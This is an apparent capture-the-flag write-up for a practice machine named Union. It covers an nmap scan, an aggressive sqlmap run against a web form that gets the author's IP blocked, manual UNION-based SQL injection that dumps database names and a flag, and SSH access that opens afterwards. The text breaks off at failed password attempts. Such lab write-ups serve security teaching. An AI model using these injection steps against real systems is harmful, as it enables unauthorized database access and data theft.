# Union - Medium Box

## Nmap Scan Results

```
sudo nmap -p- -T4 -sVC -oA nmap/union -vvv 10.129.96.75
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-18 21:12 EDT
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 21:12
Completed NSE at 21:12, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 21:12
Completed NSE at 21:12, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 21:12
Completed NSE at 21:12, 0.00s elapsed
Initiating Ping Scan at 21:12
Scanning 10.129.96.75 [4 ports]
Completed Ping Scan at 21:12, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:12
Completed Parallel DNS resolution of 1 host. at 21:12, 0.12s elapsed
DNS resolution of 1 IPs took 0.12s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 21:12
Scanning 10.129.96.75 [65535 ports]
Discovered open port 80/tcp on 10.129.96.75
SYN Stealth Scan Timing: About 21.94% done; ETC: 21:14 (0:01:50 remaining)
SYN Stealth Scan Timing: About 43.88% done; ETC: 21:14 (0:01:18 remaining)
SYN Stealth Scan Timing: About 70.11% done; ETC: 21:14 (0:00:39 remaining)
Completed SYN Stealth Scan at 21:14, 118.80s elapsed (65535 total ports)
Initiating Service scan at 21:14
Scanning 1 service on 10.129.96.75
Completed Service scan at 21:14, 6.05s elapsed (1 service on 1 host)
NSE: Script scanning 10.129.96.75.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 21:14
Completed NSE at 21:14, 5.07s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 21:14
Completed NSE at 21:14, 0.08s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 21:14
Completed NSE at 21:14, 0.00s elapsed
Nmap scan report for 10.129.96.75
Host is up, received echo-reply ttl 63 (0.026s latency).
Scanned at 2026-08-18 21:12:25 EDT for 130s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods:
|_  Supported Methods: GET HEAD POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 21:14
Completed NSE at 21:14, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 21:14
Completed NSE at 21:14, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 21:14
Completed NSE at 21:14, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.45 seconds
           Raw packets sent: 131162 (5.771MB) | Rcvd: 59268 (14.180MB)
```

Since there were only 1 port open on the box, it was the only place to look at to find some interesting things.



The home page had a `Player Eligibility Check` functionality, might be related to some kind of event being host or been hosted. Therefore, I went ahead & checked who created the box & turns out the creater of the machine is none other than the man, the myth, the legend, `IppSec` himself.



Now that I have the user who created the machine, it's time to test out the `Player Eligibility Check` functionality. I first tried out the username that is being highlighted on the home page (in the input field itself), i.e., `player`.



Turns out the user `player` can compete in `"this tournament"` & the web application is trying to direct us to another endpoint in the message `Complete the challenge here`, where `here` is hyperlinked. When I placed my mouse cursor on the hyperlink, it was redirecting me to `/challenge.php`. And then, I tried putting `ippsec` inside the input field to see if I get a different result.



Turns out `ippsec` has already qualified for the tournament & is not eligible to compete in this tournament for the same reason. Seems like the web application is using some kind of database to keep track of the users who have already been qualified for the tournament, which directs me straight to `SQL Injection`, so I went ahead & tried it.

I used `SQLMap` for this purpose. I first saved the POST request that I made on the home page to a file which I named `home.req`.

```
cat home.req
POST /index.php HTTP/1.1
Host: 10.129.96.75
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.96.75/
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 13
Origin: http://10.129.96.75
DNT: 1
Connection: keep-alive
Cookie: PHPSESSID=vvsqkdtvmdico7h48bbvvu0arh
Priority: u=0

player=player
```

Then, I went ahead & ran the `sqlmap` on my local machine. I used a couple of flags to help smooth out the process, `-r` to specify the file which contains the POST request, `-p` to specify the input field to enumerate, `--batch` to use the default values whenever sqlmap asks the user for one, `--level 5` to ask the tool to perform even the highest level of tests, `--risk 3` to ask the tool to perform the tests even if the risk is very high & finally `--dump-all` to ask the tool to dump all DBMS database tables entries.

```
sqlmap -r home.req -p 'player' --batch --level 5 --risk 3 --dump-all
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.10.4#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 03:14:18 /2026-08-20/

[03:14:18] [INFO] parsing HTTP request from 'home.req'
[03:14:18] [INFO] testing connection to the target URL
[03:14:18] [INFO] checking if the target is protected by some kind of WAF/IPS
[03:14:18] [INFO] testing if the target URL content is stable
[03:14:18] [INFO] target URL content is stable
[03:14:18] [WARNING] heuristic (basic) test shows that POST parameter 'player' might not be injectable
[03:14:18] [INFO] heuristic (XSS) test shows that POST parameter 'player' might be vulnerable to cross-site scripting (XSS) attacks
[03:14:18] [INFO] testing for SQL injection on POST parameter 'player'
[03:14:18] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[03:14:18] [WARNING] reflective value(s) found and filtering out
[03:14:22] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[03:14:24] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[03:14:25] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[03:14:26] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[03:14:27] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (comment)'
[03:14:28] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (comment)'
[03:14:28] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - comment)'
[03:14:28] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[03:14:29] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[03:14:30] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[03:14:30] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (Microsoft Access comment)'
[03:14:31] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (Microsoft Access comment)'
[03:14:32] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[03:14:33] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)'
[03:14:34] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)'
[03:14:36] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (ELT)'
[03:14:38] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (ELT)'
[03:14:39] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[03:14:40] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[03:14:41] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
[03:14:43] [INFO] testing 'PostgreSQL OR boolean-based blind - WHERE or HAVING clause (CAST)'
[03:14:44] [INFO] testing 'Oracle AND boolean-based blind - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)'
[03:14:45] [INFO] testing 'Oracle OR boolean-based blind - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)'
[03:14:48] [INFO] testing 'SQLite AND boolean-based blind - WHERE, HAVING, GROUP BY or HAVING clause (JSON)'
[03:14:50] [INFO] testing 'SQLite OR boolean-based blind - WHERE, HAVING, GROUP BY or HAVING clause (JSON)'
[03:14:51] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[03:14:51] [INFO] testing 'MySQL boolean-based blind - Parameter replace (MAKE_SET)'
[03:14:51] [INFO] testing 'MySQL boolean-based blind - Parameter replace (MAKE_SET - original value)'
[03:14:51] [INFO] testing 'MySQL boolean-based blind - Parameter replace (ELT)'
[03:14:51] [INFO] testing 'MySQL boolean-based blind - Parameter replace (ELT - original value)'
[03:14:51] [INFO] testing 'MySQL boolean-based blind - Parameter replace (bool*int)'
[03:14:51] [INFO] testing 'MySQL boolean-based blind - Parameter replace (bool*int - original value)'
[03:14:51] [INFO] testing 'PostgreSQL boolean-based blind - Parameter replace'
[03:14:51] [INFO] testing 'PostgreSQL boolean-based blind - Parameter replace (original value)'
[03:14:51] [INFO] testing 'PostgreSQL boolean-based blind - Parameter replace (GENERATE_SERIES)'
[03:14:51] [INFO] testing 'PostgreSQL boolean-based blind - Parameter replace (GENERATE_SERIES - original value)'
[03:14:51] [INFO] testing 'Microsoft SQL Server/Sybase boolean-based blind - Parameter replace'
[03:14:51] [INFO] testing 'Microsoft SQL Server/Sybase boolean-based blind - Parameter replace (original value)'
[03:14:51] [INFO] testing 'Oracle boolean-based blind - Parameter replace'
[03:14:52] [INFO] testing 'Oracle boolean-based blind - Parameter replace (original value)'
[03:14:52] [INFO] testing 'Informix boolean-based blind - Parameter replace'
[03:14:52] [INFO] testing 'Informix boolean-based blind - Parameter replace (original value)'
[03:14:52] [INFO] testing 'Microsoft Access boolean-based blind - Parameter replace'
[03:14:52] [INFO] testing 'Microsoft Access boolean-based blind - Parameter replace (original value)'
[03:14:52] [INFO] testing 'Boolean-based blind - Parameter replace (DUAL)'
[03:14:52] [INFO] testing 'Boolean-based blind - Parameter replace (DUAL - original value)'
[03:14:52] [INFO] testing 'Boolean-based blind - Parameter replace (CASE)'
[03:14:52] [INFO] testing 'Boolean-based blind - Parameter replace (CASE - original value)'
[03:14:52] [INFO] testing 'MySQL >= 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[03:14:52] [INFO] testing 'MySQL >= 5.0 boolean-based blind - ORDER BY, GROUP BY clause (original value)'
[03:14:52] [INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[03:14:52] [INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause (original value)'
[03:14:52] [INFO] testing 'PostgreSQL boolean-based blind - ORDER BY, GROUP BY clause'
[03:14:52] [INFO] testing 'PostgreSQL boolean-based blind - ORDER BY clause (original value)'
[03:14:52] [INFO] testing 'PostgreSQL boolean-based blind - ORDER BY clause (GENERATE_SERIES)'
[03:14:52] [INFO] testing 'Microsoft SQL Server/Sybase boolean-based blind - ORDER BY clause'
[03:14:52] [INFO] testing 'Microsoft SQL Server/Sybase boolean-based blind - ORDER BY clause (original value)'
[03:14:52] [INFO] testing 'Oracle boolean-based blind - ORDER BY, GROUP BY clause'
[03:14:52] [INFO] testing 'Oracle boolean-based blind - ORDER BY, GROUP BY clause (original value)'
[03:14:52] [INFO] testing 'Microsoft Access boolean-based blind - ORDER BY, GROUP BY clause'
[03:14:52] [INFO] testing 'Microsoft Access boolean-based blind - ORDER BY, GROUP BY clause (original value)'
[03:14:53] [INFO] testing 'SAP MaxDB boolean-based blind - ORDER BY, GROUP BY clause'
[03:14:53] [INFO] testing 'SAP MaxDB boolean-based blind - ORDER BY, GROUP BY clause (original value)'
[03:14:53] [INFO] testing 'IBM DB2 boolean-based blind - ORDER BY clause'
[03:14:53] [INFO] testing 'IBM DB2 boolean-based blind - ORDER BY clause (original value)'
[03:14:53] [INFO] testing 'HAVING boolean-based blind - WHERE, GROUP BY clause'
[03:14:54] [INFO] testing 'MySQL >= 5.0 boolean-based blind - Stacked queries'
[03:14:55] [INFO] testing 'MySQL < 5.0 boolean-based blind - Stacked queries'
[03:14:55] [INFO] testing 'PostgreSQL boolean-based blind - Stacked queries'
[03:14:56] [INFO] testing 'PostgreSQL boolean-based blind - Stacked queries (GENERATE_SERIES)'
[03:14:57] [INFO] testing 'Microsoft SQL Server/Sybase boolean-based blind - Stacked queries (IF)'
[03:14:58] [INFO] testing 'Microsoft SQL Server/Sybase boolean-based blind - Stacked queries'
[03:14:59] [INFO] testing 'Oracle boolean-based blind - Stacked queries'
[03:15:00] [INFO] testing 'Microsoft Access boolean-based blind - Stacked queries'
[03:15:00] [INFO] testing 'SAP MaxDB boolean-based blind - Stacked queries'
[03:15:01] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[03:15:02] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[03:15:03] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[03:15:04] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[03:15:05] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[03:15:06] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[03:15:07] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[03:15:08] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[03:15:09] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[03:15:10] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[03:15:11] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[03:15:12] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[03:15:13] [INFO] testing 'MySQL >= 5.0 (inline) error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[03:15:13] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[03:15:13] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[03:15:14] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[03:15:15] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[03:15:16] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[03:15:17] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[03:15:18] [INFO] testing 'PostgreSQL OR error-based - WHERE or HAVING clause'
[03:15:18] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[03:15:19] [INFO] testing 'Microsoft SQL Server/Sybase OR error-based - WHERE or HAVING clause (IN)'
[03:15:20] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (CONVERT)'
[03:15:21] [INFO] testing 'Microsoft SQL Server/Sybase OR error-based - WHERE or HAVING clause (CONVERT)'
[03:15:22] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (CONCAT)'
[03:15:22] [INFO] testing 'Microsoft SQL Server/Sybase OR error-based - WHERE or HAVING clause (CONCAT)'
[03:15:23] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[03:15:24] [INFO] testing 'Oracle OR error-based - WHERE or HAVING clause (XMLType)'
[03:15:25] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (UTL_INADDR.GET_HOST_ADDRESS)'
[03:15:25] [INFO] testing 'Oracle OR error-based - WHERE or HAVING clause (UTL_INADDR.GET_HOST_ADDRESS)'
[03:15:26] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)'
[03:15:27] [INFO] testing 'Oracle OR error-based - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)'
[03:15:28] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (DBMS_UTILITY.SQLID_TO_SQLHASH)'
[03:15:29] [INFO] testing 'Oracle OR error-based - WHERE or HAVING clause (DBMS_UTILITY.SQLID_TO_SQLHASH)'
[03:15:29] [INFO] testing 'Firebird AND error-based - WHERE or HAVING clause'
[03:15:30] [INFO] testing 'Firebird OR error-based - WHERE or HAVING clause'
[03:15:30] [INFO] testing 'MonetDB AND error-based - WHERE or HAVING clause'
[03:15:31] [INFO] testing 'MonetDB OR error-based - WHERE or HAVING clause'
[03:15:32] [INFO] testing 'Vertica AND error-based - WHERE or HAVING clause'
[03:15:32] [INFO] testing 'Vertica OR error-based - WHERE or HAVING clause'
[03:15:33] [INFO] testing 'IBM DB2 AND error-based - WHERE or HAVING clause'
[03:15:34] [INFO] testing 'IBM DB2 OR error-based - WHERE or HAVING clause'
[03:15:34] [INFO] testing 'ClickHouse AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
[03:15:35] [INFO] testing 'ClickHouse OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
[03:15:36] [INFO] testing 'Spanner AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
[03:15:37] [INFO] testing 'Spanner OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
[03:15:38] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[03:15:38] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[03:15:38] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[03:15:38] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[03:15:38] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[03:15:38] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[03:15:38] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[03:15:39] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[03:15:39] [INFO] testing 'PostgreSQL error-based - Parameter replace'
[03:15:39] [INFO] testing 'PostgreSQL error-based - Parameter replace (GENERATE_SERIES)'
[03:15:39] [INFO] testing 'Microsoft SQL Server/Sybase error-based - Parameter replace'
[03:15:39] [INFO] testing 'Microsoft SQL Server/Sybase error-based - Parameter replace (integer column)'
[03:15:39] [INFO] testing 'Oracle error-based - Parameter replace'
[03:15:39] [INFO] testing 'Firebird error-based - Parameter replace'
[03:15:39] [INFO] testing 'IBM DB2 error-based - Parameter replace'
[03:15:39] [INFO] testing 'MySQL >= 5.5 error-based - ORDER BY, GROUP BY clause (BIGINT UNSIGNED)'
[03:15:39] [INFO] testing 'MySQL >= 5.5 error-based - ORDER BY, GROUP BY clause (EXP)'
[03:15:39] [INFO] testing 'MySQL >= 5.6 error-based - ORDER BY, GROUP BY clause (GTID_SUBSET)'
[03:15:39] [INFO] testing 'MySQL >= 5.7.8 error-based - ORDER BY, GROUP BY clause (JSON_KEYS)'
[03:15:39] [INFO] testing 'MySQL >= 5.0 error-based - ORDER BY, GROUP BY clause (FLOOR)'
[03:15:39] [INFO] testing 'MySQL >= 5.1 error-based - ORDER BY, GROUP BY clause (EXTRACTVALUE)'
[03:15:39] [INFO] testing 'MySQL >= 5.1 error-based - ORDER BY, GROUP BY clause (UPDATEXML)'
[03:15:39] [INFO] testing 'MySQL >= 4.1 error-based - ORDER BY, GROUP BY clause (FLOOR)'
[03:15:39] [INFO] testing 'PostgreSQL error-based - ORDER BY, GROUP BY clause'
[03:15:39] [INFO] testing 'PostgreSQL error-based - ORDER BY, GROUP BY clause (GENERATE_SERIES)'
[03:15:39] [INFO] testing 'Microsoft SQL Server/Sybase error-based - ORDER BY clause'
[03:15:39] [INFO] testing 'Oracle error-based - ORDER BY, GROUP BY clause'
[03:15:39] [INFO] testing 'Firebird error-based - ORDER BY clause'
[03:15:39] [INFO] testing 'IBM DB2 error-based - ORDER BY clause'
[03:15:39] [INFO] testing 'Microsoft SQL Server/Sybase error-based - Stacking (EXEC)'
[03:15:40] [INFO] testing 'Generic inline queries'
[03:15:40] [INFO] testing 'MySQL inline queries'
[03:15:40] [INFO] testing 'PostgreSQL inline queries'
[03:15:40] [INFO] testing 'Microsoft SQL Server/Sybase inline queries'
[03:15:40] [INFO] testing 'Oracle inline queries'
[03:15:40] [INFO] testing 'SQLite inline queries'
[03:15:40] [INFO] testing 'Firebird inline queries'
[03:15:40] [INFO] testing 'ClickHouse inline queries'
[03:15:40] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[03:15:40] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[03:15:41] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[03:15:41] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[03:15:42] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[03:15:42] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[03:15:43] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[03:15:43] [INFO] testing 'PostgreSQL > 8.1 stacked queries'
[03:15:44] [INFO] testing 'PostgreSQL stacked queries (heavy query - comment)'
[03:15:45] [INFO] testing 'PostgreSQL stacked queries (heavy query)'
[03:15:45] [INFO] testing 'PostgreSQL < 8.2 stacked queries (Glibc - comment)'
[03:15:46] [INFO] testing 'PostgreSQL < 8.2 stacked queries (Glibc)'
[03:15:46] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[03:15:47] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (DECLARE - comment)'
[03:15:47] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries'
[03:15:48] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (DECLARE)'
[03:15:49] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[03:15:49] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE)'
[03:15:50] [INFO] testing 'Oracle stacked queries (heavy query - comment)'
[03:15:50] [INFO] testing 'Oracle stacked queries (heavy query)'
[03:15:51] [INFO] testing 'Oracle stacked queries (DBMS_LOCK.SLEEP - comment)'
[03:15:51] [INFO] testing 'Oracle stacked queries (DBMS_LOCK.SLEEP)'
[03:15:52] [INFO] testing 'Oracle stacked queries (USER_LOCK.SLEEP - comment)'
[03:15:52] [INFO] testing 'Oracle stacked queries (USER_LOCK.SLEEP)'
[03:15:52] [INFO] testing 'IBM DB2 stacked queries (heavy query - comment)'
[03:15:53] [INFO] testing 'IBM DB2 stacked queries (heavy query)'
[03:15:53] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query - comment)'
[03:15:54] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query)'
[03:15:54] [INFO] testing 'Firebird stacked queries (heavy query - comment)'
[03:15:55] [INFO] testing 'Firebird stacked queries (heavy query)'
[03:15:56] [INFO] testing 'SAP MaxDB stacked queries (heavy query - comment)'
[03:15:56] [INFO] testing 'SAP MaxDB stacked queries (heavy query)'
[03:15:57] [INFO] testing 'HSQLDB >= 1.7.2 stacked queries (heavy query - comment)'
[03:15:57] [INFO] testing 'HSQLDB >= 1.7.2 stacked queries (heavy query)'
[03:15:58] [INFO] testing 'HSQLDB >= 2.0 stacked queries (heavy query - comment)'
[03:15:58] [INFO] testing 'HSQLDB >= 2.0 stacked queries (heavy query)'
[03:15:59] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[03:16:00] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP)'
[03:16:01] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SLEEP)'
[03:16:01] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (SLEEP)'
[03:16:02] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SLEEP - comment)'
[03:16:03] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (SLEEP - comment)'
[03:16:03] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP - comment)'
[03:16:04] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP - comment)'
[03:16:05] [INFO] testing 'MySQL < 5.0.12 AND time-based blind (BENCHMARK)'
[03:16:05] [INFO] testing 'MySQL > 5.0.12 AND time-based blind (heavy query)'
[03:17:06] [INFO] POST parameter 'player' appears to be 'MySQL > 5.0.12 AND time-based blind (heavy query)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
[03:17:06] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[03:17:06] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[03:17:36] [WARNING] there is a possibility that the target (or WAF/IPS) is dropping 'suspicious' requests
[03:17:36] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[03:17:36] [WARNING] most likely web server instance hasn't recovered yet from previous timed based payload. If the problem persists please wait for a few minutes and rerun without flag 'T' in option '--technique' (e.g. '--flush-session --technique=BEUS') or try to lower the value of option '--time-sec' (e.g. '--time-sec=2')
[03:18:22] [WARNING] user aborted during detection phase
how do you want to proceed? [(S)kip current test/(e)nd detection phase/(n)ext parameter/(c)hange verbosity/(q)uit] q

[*] ending @ 03:18:25 /2026-08-20/
```

Turns out the web application is configured in such a way that it prohibits the `SQLMap`'s enumeration, as the tool is making a lot of requests on my behalf. I had to reset the machine in order to proceed.

## NOTE to self

Next time, make sure that running `sqlmap` does not get my IP blacklisted & then only proceed using the tool.

## Continuation

Now that the machine has been reset, I am gonna have to perform the `SQL Injection` manually, since using the tool `sqlmap` is gonna get my IP blacklisted. The important thing to keep in mind while exploiting `SQL Injection` is that we need to inject in the query which returns something. This statement might not make much sense right now, but it will when we perform the attack to see it in action. So, in this particular situation, entering the username of a player who can participate in the tournament, i.e., `player`, will not help us out as the web application is just printing out the username on the web page. However, when we enter the username of a player who has already been qualified for the tournament, i.e., `ippsec`, the web application is returning something different & hence it should be our starting point.




Notice how the message changed as soon as I entered the `'` right after `ippsec`. This is the confirmation of our `SQL Injection` being successfull. However, if we are still unsure about it, we can add `-- -` to comment out the rest of the SQL query to see what happens.



As we can see, the behaviour of the web application changed yet again & we see the message saying `Sorry, ippsec you are not eligible due to already qualifying`. Now we can play around with the `UNION Injection` to enumerate the database.





As we can see the difference among using `union select 1-- - `, `union select 1,2-- -` & `union select 1,2,3-- -`, it seems like the web application is printing out only `1` column, which makes sense knowing that the web application is only printing out the username. Now, we can move further to enumerate the database.



Now, we just need to force the web application to error out the query, which can just as easily done by removing or adding a character from the username.



Unfortunately for us, the web application is only printing out the first database's name, i.e., `mysql`, which means we might need to use `group.concat()` in order to retrieve all databases information.



As we can see, the web application is now printing out all the databases & the only non-default database is `november`. So, let's enumerate the tables present in the database.



Now that we know the tables that exist in the database, it's time to enumerate the columns of the tables `flag` & `players`. Let's first try to enumerate the table `flag` as the web application has an endpoint `/challenge.php`.



Turns out there is only 1 column in the `flag` table, & apparently it's name is `one` as well, which is a bit funny in this context. Anyways, moving further, its time to get the content of the `one` column in the `flag` table.



Now that we have the flag, we can see what is the function of the endpoint `challenge.php`.



Turns out, we have been given access to the `SSH` service, which the nmap didn't find. However, now that my IP has been granted the access to the `SSH` service, nmap should be able to scan it now.

```
sudo nmap -p 22 -sVC 10.129.46.59
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-20 20:46 EDT
Nmap scan report for 10.129.46.59
Host is up (0.016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.09 seconds
```

As we can see now, nmap successfully found the open port for `SSH`. Let's login to the host using ssh.

```
ssh 10.129.46.59
akku@10.129.46.59's password: 
Permission denied, please try again.
akku@10.129.46.59's password: 
Permission denied, please try again.
akku@10.129.46.59's password: 
